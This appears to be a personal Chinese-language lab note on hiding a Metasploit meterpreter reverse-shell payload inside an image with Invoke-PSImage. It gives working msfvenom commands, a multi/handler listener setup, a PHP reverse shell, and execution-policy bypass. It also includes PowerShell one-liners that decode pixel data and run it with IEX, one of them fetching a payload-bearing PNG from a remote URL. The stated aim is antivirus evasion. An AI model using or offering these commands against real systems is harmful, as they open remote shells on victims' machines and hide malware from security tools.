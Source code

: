 
[Invoke-PSImage利用分析](https://www.4hou.com/technology/9472.html)

[msf使用参考](https://blog.csdn.net/nzjdsds/article/details/82929265)

fail

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img.ps1 

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img2.ps1   

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img3.ps1  --smallest  

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img4.ps1  --smallest   
```

success

```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f psh-reflection  -o img.ps1 --smallest```

打开msf

```
use exploit/multi/handler
set LHOST 192.168.255.153
set LPORT 2333 
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

payload的选择取决于生成被控端文件用了什么模块，名字都是一样的

msfpayload php/reverse_php LHOST=x.x.x.x LPORT=2333 R > re.php

set PAYLOAD php/reverse_php

先保证msf生成的payload执行可以反弹,再把它藏在图片中

如果 powershell.ps1 不能被执行 ，修改权限：在powershell中执行 set-ExecutionPolicy RemoteSigned


打开受控端powershell,执行

```Import-Module C:\Users\Administrator\Desktop\Invoke-PSImage.ps1```

```Invoke-PSImage -Script C:\Users\Administrator\Desktop\img5.ps1 -Image C:\Users\Administrator\Desktop\q.jpg -Out C:\Users\Administrator\Desktop\ss.png```

![](2.jpg)

回显

```
sal a New-Object;Add-Type -AssemblyName "System.Drawing";$g=a System.Drawing.Bitmap("C:\Users\Administrator\Desktop\ss.png");$o=a Byte[] 2960;(0..4)|%{foreach($x in(0..591)){$p=$g.GetPixel($x,$_);$o[$_*592+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G-band15))}};$g.Dispose();IEX([System.Text.Encoding]::ASCII.GetString($o[0..2778]))
```

在受控端powershell执行回显即可反弹，复现成功

原理：将不免杀的payload藏于图片中，图片是免杀的，上传图片即可。调用图片的代码也是免杀的，类似于调用包含shellcode的文件

生成的回显即为调图片的代码。也可以根据需求设置调用网页上的图片。



evil.ps1 为我写的一个在powershell中输出 test 的小脚本，用于测试使用

```$powershell -exec bypass``` 或 ```$powershell```   # 在 cmd唤起powershell

（系统默认是禁止执行ps脚本的,所以实际用的时候后面都会带上bypass选项）


powershell中输入如下，弹出计算器

PS $```sal a New-Object;Add-Type -AssemblyName "System.Drawing";$g=a System.Drawing.Bitmap((a Net.WebClient).OpenRead("https://raw.githubusercontent.com/3gstudent/test/master/Evilwow.png"));$o=a Byte[] 500;(0..0)|%{foreach($x in(0..499)){$p=$g.GetPixel($x,$_);$o[$_*500+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G -band 15))}};IEX([System.Text.Encoding]::ASCII.GetString($o[0..13]))```

**注意：图片像素数应大于payload字节数**

### 参考资料

[powershell攻击集](https://github.com/samratashok/nishang)




